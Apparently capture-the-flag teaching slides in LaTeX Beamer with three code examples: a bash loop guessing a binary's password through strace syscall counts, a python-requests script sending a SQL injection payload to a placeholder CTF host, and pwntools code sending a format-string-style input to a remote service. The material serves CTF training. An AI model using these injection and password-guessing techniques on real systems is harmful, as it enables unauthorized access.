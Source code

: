 

\begin{frame}[fragile]
  {Bash Password Guessing}

  \begin{lstlisting}[language=bash]
for x in q w e r t y u i o p a s d f g h j k l z \
    x c v b n m Q W E R T Y U I O P A S D F G H J \
    K L Z X C V B N M 1 2 3 4 5 6 7 8 9 0 "-" "_" "?"
do
echo "= $x ="
# count sigaction syscalls
strace ./stage3.bin "Did_you_l$x$x$x$x$x$x$x$x" 2>&1 \
  | grep sigaction \
  | wc -l
done > log
# get highest count of sigactions and triggering char
cat log | grep -B 1 \
  "$(cat log | grep -v = | sort | uniq | tail -n 1)"
  \end{lstlisting}

\end{frame}



\begin{frame}[fragile]
  {Automated Browsing -- python-requests}

  \begin{lstlisting}[language=python]
import requests

URL = 'http://ctf.example.com'
s = requests.session()
r = s.post(URL + '/login',
           data={'user': 'fuzzy', 'pass': '1234'})

# GET http://ctf.example.com/vuln?x='or%201=1--x
resp = s.get(URL + '/vuln',
             params={'x': '\'or 1=1 --x'})
# session cookie automagically used here

print resp.text
# flag{some_flag_of_some_service}
  \end{lstlisting}
\end{frame}


\begin{frame}[fragile]
  {Dirty Networking -- pwntools}

  \begin{lstlisting}[language=python]
from pwn import *

r = remote('ctf.example.com', 1337)

# line based
r.recvline()
r.sendline('HELO %s%s%s%s')
r.recvuntil('250 Hello')

data = r.recv(4)

# unpack LE uint32 from bin
i = u32(data)
log.info('received uint32 {}'.format(i))

# pack BE uint32 to bin
r.send(p32(1094795585, endian='big'))
r.recvline()
  \end{lstlisting}
\end{frame}


